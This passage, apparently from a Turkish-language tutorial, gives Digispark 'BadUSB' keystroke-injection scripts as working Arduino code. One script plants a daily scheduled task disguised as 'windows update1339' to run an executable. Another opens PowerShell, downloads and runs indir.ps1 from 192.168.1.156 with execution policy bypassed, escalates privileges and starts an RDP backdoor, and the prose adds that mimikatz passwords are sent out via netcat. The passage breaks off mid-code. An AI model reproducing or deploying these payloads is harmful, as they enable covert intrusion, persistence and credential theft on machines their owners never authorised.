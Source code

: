 ```
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2500);
  DigiKeyboard.print("set \"exePath=%CD%/config.exe\"");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("SCHTASKS /Create /SC DAILY /TN \"windows update1339\" /TR \"%exePath%\" /ST 14:16");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  for (;;){
    /*lesgo*/
  }
}
```

### [](#header-3)Teknik 4

Son olarak `rdp` servisi açlıyor ve `mimikatz` kullanılılarak alınan şifreler yine netcat kullanılarak gönderiliyor olabilir.

```
#define kbd_tr_tr
#include "DigiKeyboard.h"

void setup() {
  // put your setup code here, to run once:

}

void loop() {
  // put your main code here, to run repeatedly:
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1500);
  DigiKeyboard.print("powershell");
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2500);
  DigiKeyboard.print("$WebClient = New-Object System.Net.WebClient");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("$WebClient.DownloadFile('http://192.168.1.156/indir.ps1','indir.ps1')");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1500);
  DigiKeyboard.print("powershell -Execution ByPass -File indir.ps1");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("./Elevate.exe -k"); // Yetki Yükseltmek için
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2500);
  DigiKeyboard.print("uzakbaglanti.bat"); // rdp server
```